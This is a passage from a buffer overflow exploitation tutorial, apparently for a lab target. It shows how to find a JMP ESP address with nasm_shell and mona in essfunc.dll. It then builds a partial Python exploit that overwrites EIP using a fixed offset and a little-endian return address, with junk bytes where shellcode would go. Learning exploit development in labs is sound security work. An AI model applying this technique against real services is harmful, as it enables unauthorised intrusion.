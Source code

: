 Now we can look if this DLL has a JMP ESP. To search for this we need to know the OPCODE equivalent of a JMP ESP.

If we don't know this we can use a tool called nasm_shell

```bash
root@kali:~# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm >
```

`!mona find -s "\xFF\xE4" -m essfunc.dll`

![Find JMP ESP](images/BO_find_jmp_esp.png)

`625011af` is the address of a jump point. We want to add this value to our python script in place of the B's.

But since where on a x86 system it uses Little Endian Format. This means that the lowest byte is stored at the lowest addres and the highest order byte at the highest.

So it will look something like this.

```python
#!/usr/bin/python

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003

shellcode = b"C"*256

buff  = b""                 # empty byte var
buff += b"A"*offset         # junk
buff += b"\xAF\x11\x50\x62" # EIP to JMP ESP
buff += b'C'*256            # some more junk on stack after EIP which we want to eventually store our shellcode and jump to.
buff += b'D'*256            # this also gives us an idea of how much space we have on the stack.
buff += b'E'*128            #
buff += b'F'*128            #
buff += b'G'*64             #
buff += b'H'*64             #
buff += b'I'*32             #
buff += b'J'*32             #

try:
```